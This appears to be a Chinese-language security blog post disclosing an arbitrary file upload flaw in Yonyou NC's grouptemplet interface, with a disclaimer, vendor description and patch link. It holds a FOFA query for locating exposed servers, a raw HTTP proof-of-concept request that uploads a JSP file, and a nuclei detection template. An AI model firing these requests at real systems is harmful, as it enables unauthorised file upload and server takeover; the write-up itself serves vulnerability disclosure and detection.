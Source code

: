 #  用友NC grouptemplet 任意文件上传漏洞   
原创 fgz  AI与网安   2024-04-29 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
****  
**次条通常是广告，内容我也没验证，感兴趣的自行验证，不感兴趣的忽略。**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
用友NC grouptemplet 任意文件上传漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
用友NC 版本不详  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
用友NC是大型企业管理与电子商务平台，帮助企业实现管理转型升级全面从以产品为中心转向以客户为中心（C2B）；从流程驱动转向数据驱动（DDE）；从延时运行转为实时运行（RTE）；从领导指挥到员工创新（E2M）。用友NC grouptemplet接口处存在任意文件上传漏洞，攻击者通过漏洞可以获取网站权限，导致服务器失陷。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="1085941792"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOqZXohpWdOwticawLfzcmBeOIWJzicQSA1Ul4XjJ13ur72JJlSHMTKNW6Z0rIGDYQiaicDV5LDIvaB2Q/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
POC  
```
POST /uapim/upload/grouptemplet?groupid=nc&fileType=jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Connection: close
Content-Length: 268
Content-type: multipart/form-data; boundary=----------ny4hGVLLpZPZm0CE3KNtyhNSXvFgk
Accept-Encoding: gzip

------------ny4hGVLLpZPZm0CE3KNtyhNSXvFgk
Content-Disposition: form-data; name="upload"; filename="2fiu0YTGkaX2DrJlUZZP5IGvNvk.jsp"
Content-Type: application/octet-stream

<%out.println("2fiu0WM4788fa6NcMHipkIthTTW");%>
------------ny4hGVLLpZPZm0CE3KNtyhNSXvFgk--
```  
  
回显路径  
```
/uapim/static/pages/nc/head.jsp
```  
  
  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: yonyou-nc-grouptemplet-fileupload

info:
  name: 用友NC grouptemplet 任意文件上传漏洞
  author: fgz
  severity: critical
  description: |
    用友NC是大型企业管理与电子商务平台，帮助企业实现管理转型升级全面从以产品为中心转向以客户为中心（C2B）；从流程驱动转向数据驱动（DDE）；从延时运行转为实时运行（RTE）；从领导指挥到员工创新（E2M）。用友NC grouptemplet接口处存在任意文件上传漏洞，攻击者通过漏洞可以获取网站权限，导致服务器失陷。
  reference:
    none
  metadata:
    verified: true
    max-request: 2
    fofa-query: icon_hash="1085941792"
  tags: yonyou,nc,fileupload,2024

variables:
  boundary: '{{rand_base(29)}}'

http:
  - raw:
      - |
        POST /uapim/upload/grouptemplet?groupid=nc&fileType=jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
        Content-type: multipart/form-data; boundary=----------{{boundary}}
        
        ------------{{boundary}}
        Content-Disposition: form-data; name="upload"; filename="{{randstr_1}}.jsp"
        Content-Type: application/octet-stream
        
        <%out.println("{{randstr_2}}");%>
        ------------{{boundary}}--

      - |
        GET /uapim/static/pages/nc/head.jsp HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Accept-Encoding: gzip

    req-condition: true
    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200"
          - "status_code_2 == 200 && contains(body_2,'{{randstr_2}}')"
        condition: and
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
用友安全中心补丁连接  
```
https://security.yonyou.com/#/patchList
```  
  
  
